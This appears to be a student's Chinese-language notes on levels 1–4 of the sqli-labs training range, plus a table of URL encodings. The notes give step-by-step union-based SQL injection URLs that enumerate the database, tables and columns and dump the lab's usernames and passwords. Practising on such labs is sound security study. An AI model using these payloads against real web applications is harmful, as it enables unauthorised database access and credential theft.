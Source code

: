    

#### sqli-labs靶场1-4关练习

##### 第一关

```
找注入点:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1
找闭合符:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1'  
找列数:http://192.168.96.135/sqli-labs/Less-1/index.php?id=1'order by 3 %23
找字段显示位置:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1'union select 1,2,3 --+
找库名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1'union select 1,2,database() --+
找表名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(table_name)%20from%20information_schema.tables%20where%20table_schema=%22security%22%20--+    #emails,referers,uagents,users
找列名:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema=%22security%22%20and%20table_name=%22users%22--+
找用户名密码:http://192.168.96.135/sqli-labs/Less-1/index.php?id=-1%27union%20select%201,2,group_concat(username,%22=%22,password)%20from%20users--+

结果:Dumb=Dumb,Angelina=I-kill-you,Dummy=p@ssword,secure=crappy,stupid=stupidity,superman=genious,batman=mob!le,admin=admin,admin1=admin1,admin2=admin2,admin3=admin3,dhakkan=dumbo,admin4=admin4
```

==闭合符为单引号==

##### 第二关

步骤与第一关一致,但没有闭合符

##### 第三关

步骤与第一关一致,==闭合符为 ')==

##### 第四关

步骤与第一关一致,==闭合符为")==



#### 常用符号的url编码:

| 符号    | url编码 |
| ------- | ------- |
| 空格    | %20     |
| 双引号" | %22     |
| 井号#   | %23     |
| 单引号' | %27     |
| 加号+   | %2b     |
| 减号-   | %2d     |
| 反引号` | %60     |
